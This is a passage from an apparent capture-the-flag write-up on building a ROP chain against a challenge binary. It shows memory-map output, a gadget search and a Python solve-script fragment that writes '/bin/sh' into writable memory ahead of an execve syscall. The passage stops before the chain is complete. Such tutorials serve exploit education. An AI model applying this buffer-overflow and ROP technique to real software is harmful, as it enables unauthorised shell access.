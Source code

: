```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x4b6000 r-xp    b6000      0 <YOUR_CHALL_DIR>
          0x6b6000           0x6bc000 rw-p     6000  b6000 <YOUR_CHALL_DIR>
```

As you can see, from `0x6b6000` to `0x6bc000`, this portion of the memory is writable. We will use this.

For this to work, we need to use a pointer gadget to move the `/bin/sh` into writable memory. Let's use one that has registers that we will be using.

(P.S. you can use other ptr gadgets as well, as long as it does not disrupt program flow and does what we need).

```shell
$> ROPgadget --binary chall | grep ": mov qword ptr \[rsi\], rax ; ret"
0x000000000047f3c1 : mov qword ptr [rsi], rax ; ret
```

FYI, `QWORD` just means 64-bit unsigned int. But more importantly, we need the pointer instruction.

### Step 4
Let's move the shell into the writable location. Since we are moving value `rax` into `rsi` pointer, we need the ROP chain to look like this:

```shell
rax: /bin/sh\x00 (need the null byte)
rsi: writable location (0x6b6000)
move rax to rsi ptr gadget
```

in the solve script it will look like this:

```py
# address to move /bin/sh into writable memory
vmmap = 0x6b6000 # found from vmmap
movptr = 0x47f3c1 # mov qword ptr [rsi], rax ; ret

payload = b'A' * 120

# ROP chain to move /bin/sh
payload += p64(pop_rax) +  b'/bin/sh\x00'
payload += p64(pop_rsi) + p64(vmmap)
payload += p64(movptr)
```

### Step 5
Now that we have the shell written in memory, we can perform the syscall. Refer to this again.

```shell
rax: 0x3b or 59 (dec)
rdi: ptr location of `/bin/sh`
rdx: 0
rsi: 0
syscall
```
